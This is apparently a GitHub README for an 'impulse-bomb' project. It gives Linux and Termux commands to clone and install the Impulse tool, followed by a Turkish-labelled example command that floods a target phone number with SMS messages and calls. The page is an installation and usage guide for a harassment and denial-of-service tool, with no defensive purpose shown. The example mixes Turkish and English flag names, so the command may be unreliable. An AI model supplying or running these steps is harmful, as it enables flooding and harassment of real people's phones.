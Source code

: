 # New1impulse-bomb

Linux:

sudo apt update
sudo apt install python3 python3-pip git -y

git clone https://github.com/LimerBoy/Impulse

cd Impulse/

pip3 install -r requirements.txt

python3 impulse.py --help

Termux:

pkg update
pkg install python3 python3-pip3 git -y

git clone https://github.com/LimerBoy/Impulse

cd Impulse/

pip3 install -r requirements.txt

python3 impulse.py --help

📞  Örnek SMS ve Çağrı seli:
python3 impulse.py --yöntem SMS --Time 20 --threads 15 --hedef +90555555555
